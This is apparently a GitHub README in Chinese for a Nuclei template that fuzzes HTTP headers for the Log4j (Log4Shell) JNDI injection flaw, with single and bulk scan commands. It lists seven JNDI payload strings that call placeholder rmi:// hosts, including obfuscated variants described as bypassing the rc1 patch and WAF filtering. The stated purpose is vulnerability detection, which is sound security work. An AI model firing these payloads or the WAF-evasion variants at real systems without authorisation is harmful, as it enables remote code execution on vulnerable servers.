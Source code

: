 # log4j-fuzz-head-poc
针对 log4j批量fuzzz 头检测poc，有效检测一些头部存在的安全风险

添加了绕过rc1的poc

也同时添加了绕过waf拦截poc
```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```


# 使用
```
/nuclei -t log4j-fuzz-head-poc.yaml -u http://www.test.com  -o res.txt 单个检测

/nuclei -t log4j-fuzz-head-poc.yaml -l urls.txt  -o res.txt   批量检测
```

![image](https://user-images.githubusercontent.com/50769953/145665694-21632dd2-7336-474b-80ed-9cdba4919898.png)

